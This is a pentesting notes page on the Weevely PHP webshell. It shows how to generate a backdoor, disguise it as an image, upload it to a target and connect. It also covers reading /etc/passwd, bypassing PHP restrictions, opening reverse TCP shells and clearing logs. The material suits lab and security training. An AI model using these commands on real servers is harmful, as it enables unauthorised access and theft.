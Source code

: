 ```yaml
---
title: Weevely - A PHP webshell backdoor generator
draft: false
TableOfContents: true
tags:
  - pentestingç
  - web
  - pentesting
  - enumeration
---
```

# weevely

Weevely is **a stealth PHP web shell that simulate telnet-like connection**. It is an essential tool for web application post exploitation, and can be used as stealth backdoor or as a web shell to manage legit web accounts, even free hosted ones.

```bash

# Generate backdoor agent
weevely generate <password> <path/to/save/your/phpBackdoorNamefile.php>
#generate is for generating a backdoor
# password to access the file

# Then, you upload the file into the victim's server and use weevely to connect
# Run terminal to the target
 weevely <URL> <password> [cmd]


# Load session file
weevely session <path>


```

Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.

+ Read the [Install](https://github.com/epinna/weevely3/wiki/Install) page to install weevely and its dependencies.
+ Read the [Getting Started](https://github.com/epinna/weevely3/wiki/Getting-Started) page to generate an agent and connect to it.
+ Browse the [Wiki](https://github.com/epinna/weevely3/wiki) to read examples and use cases.


## Example from a lab

Generate a php webshell with [Weevely](weevely.md) and saving it an image:

```
weevely generate secretpassword example.png 
```

Upload it to the application.

![weevely](img/weevely_00.png)


Make the connection with weevely:

```
weevely https://example.com/uploads/example.jpg/example.php secretpassword
```

![weevely](img/weevely_01.png)


## weevely commands

``` weevely
# Cray for Help
weevely> help
```

In an attack you will probably need:

```
# Read /etc/passwd with different techniques. Nice touch here is that weevely can bypass some restriction introduced in "cat /etc/passwd". For that it uses the attribute -vector
:audit_etcpasswd            
# -vector: posix_getpwuid, file, fread, file_get_contents, base64

# Collect system information
:system_info

# Audit the file system for weak permissions.
:audit_filesystem

# Execute shell commands, BUT the cool part is that it bypasses the inability to run a bash command by tunnelling into a different language command. To see available languages, use the attribute -h
:shell_sh -vector <VectorValue> <Command>
# -vector With attribute vector you can choose to execute bash through php, python...

# Download file from remote filesystem.
:file_download -vector <VECTORValue> <rpath> <lpath>
# -vector: file, fread, file_get_contents, base64
# rpath: remote path of the file you want to download
# lpath: location where you want to save it


# Upload file to remote filesystem.
:file_upload 

# Execute a reverse TCP shell.
:backdoor_reversetcp -shell <SHELLType> -npo-autonnet -vector <VALUEofVector> <LHOST> <LPORT> 
:backdoor_reversetcp -h
```


## weevely complete list of commands

| Module                      | Description  |
| --------------------------- | ------------------------------------------ |
| :audit_filesystem           | Audit the file system for weak permissions. |
| :audit_suidsgid             |  Find files with SUID or SGID flags. |
| :audit_disablefunctionbypass|  Bypass disable_function restrictions with mod_cgi and .htaccess. |
| :audit_etcpasswd            |  Read /etc/passwd with different techniques. |
| :audit_phpconf              |  Audit PHP configuration. |
| :shell_sh                   |  Execute shell commands. |
| :shell_su                   |  Execute commands with su. |
| :shell_php                  |  Execute PHP commands. |
| :system_extensions          |  Collect PHP and webserver extension list. |
| :system_info                |  Collect system information. |
| :system_procs               |  List running processes. |
| :backdoor_reversetcp        |  Execute a reverse TCP shell. |
| :backdoor_tcp               |  Spawn a shell on a TCP port. |
| :bruteforce_sql             |  Bruteforce SQL database. |
| :file_gzip                  |  Compress or expand gzip files. |
| :file_clearlog              |  Remove string from a file. |
| :file_check                 |  Get attributes and permissions of a file. |
| :file_upload                |  Upload file to remote filesystem. |
| :file_webdownload           |  Download an URL. |
| :file_tar                   |  Compress or expand tar archives. |
| :file_download              |  Download file from remote filesystem. |
| :file_bzip2                 |  Compress or expand bzip2 files. |
| :file_edit                  |  Edit remote file on a local editor. |
| :file_grep                  |  Print lines matching a pattern in multiple files. |
| :file_ls                    |  List directory content. |
| :file_cp                    |  Copy single file. |
| :file_rm                    |  Remove remote file. |
| :file_upload2web            |  Upload file automatically to a web folder and get corres |ponding URL.
| :file_zip                   |  Compress or expand zip files. |
| :file_touch                 |  Change file timestamp. |
| :file_find                  |  Find files with given names and attributes. |
| :file_mount                 |  Mount remote filesystem using HTTPfs. |
| :file_enum                  |  Check existence and permissions of a list of paths. |
| :file_read                  |  Read remote file from the remote filesystem. |
| :file_cd                    |  Change current working directory. |
| :sql_console                |  Execute SQL query or run console. |
| :sql_dump                   |  Multi dbms mysqldump replacement. |
| :net_mail                   |  Send mail. |
| :net_phpproxy               |  Install PHP proxy on the target. |
| :net_curl                   |  Perform a curl-like HTTP request. |
| :net_proxy                  |  Run local proxy to pivot HTTP/HTTPS browsing through the | target.
| :net_scan                   |  TCP Port scan. |
| :net_ifconfig               |  Get network interfaces addresses. |
